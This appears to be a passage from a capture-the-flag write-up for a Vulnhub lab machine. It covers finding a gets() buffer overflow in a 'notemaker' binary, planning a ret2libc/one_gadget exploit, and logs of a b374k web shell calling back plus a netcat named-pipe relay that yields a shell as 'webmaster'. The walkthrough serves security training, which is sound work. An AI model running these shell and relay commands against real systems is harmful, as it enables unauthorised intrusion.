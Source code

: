 ```bash
/var/www/html/js
/var/www/html/admin.php
/var/www/html/about.php
/var/www/html/img
/var/www/html/config.php
/var/www/html/vendor
```

download the file and do reverse engineer.  

no canary so maybe there's BoF bug  
```c
muwa00@ritalin:~$ checksec notemaker
[*] '/home/muwa00/n0w/Vulnhub/SiXes/notemaker'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

 `gets` is a dangerous function so the vulnerable is obvious here. the program seems try to append note/string  
 to `/home/webmaster/notes.txt`
```cs
│           0x004012d9      e8d2fdffff     call sym.imp.gets           ; char *gets(char *s)
│           0x004012de      488d353d0d00.  lea rsi, [0x00402022]       ; "a" ; const char *mode
│           0x004012e5      488d3d1c0d00.  lea rdi, str.home_webmaster_notes.txt ; 0x402008 ; "/home/webmaster/notes.txt" ; const char *filename
│           0x004012ec      e83ffeffff     call sym.imp.fopen          ; file*fopen(const char *filename, const char *mode)
│           0x004012f1      488945f8       mov qword [stream], rax
```

because there's no pwntools package or socat program in the server, i will do remote exploit and  
for socat i will use `Named Pipe` or `FIFOs` as backconnect.  

it's time to make an exploit program ...   

because there's no fancy ret2win function, i will do ret2libc then redirect to `one gadget` and  
spawn the shell. because the machine used libc-2.27 i'll just download `libc.so.6` file to  
get the correct offset.

finger cross ...
```cs
...
++++++++++| terminal 1 |++++++++++
...
muwa00@ritalin:~$ nc -lvp 1337
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::1337
Ncat: Listening on 0.0.0.0:1337
Ncat: Connection from 10.0.1.10.
Ncat: Connection from 10.0.1.10:40706.
b374k shell : connected
/bin/sh: 0: cant access tty; job control turned off
/tmp>mkfifo backpipe
/tmp>nc -l 1337 0<backpipe | /sbin/notemaker 1>backpipe
...
++++++++++| terminal 2 |++++++++++
...
muwa00@ritalin:~$ python poc_notemaker.py
[+] Opening connection to 10.0.1.10 on port 1337: Done
[*] libc base @ 0x7ff024a44000
[*] Switching to interactive mode
$ whoami
webmaster
```